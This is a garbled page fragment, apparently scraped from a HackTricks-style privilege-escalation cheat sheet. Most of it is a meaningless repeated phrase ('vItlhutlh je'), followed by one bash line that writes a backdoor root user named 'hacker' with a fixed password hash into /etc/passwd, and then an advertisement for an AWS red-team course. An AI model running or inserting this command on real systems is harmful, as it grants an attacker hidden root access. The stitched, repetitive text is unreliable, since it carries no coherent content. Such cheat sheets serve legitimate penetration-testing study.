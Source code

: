 vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vItlhutlh je vIt
```bash
echo hacker:$((mkpasswd -m SHA-512 myhackerpass || openssl passwd -1 -salt mysalt myhackerpass || echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> /etc/passwd
```
<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
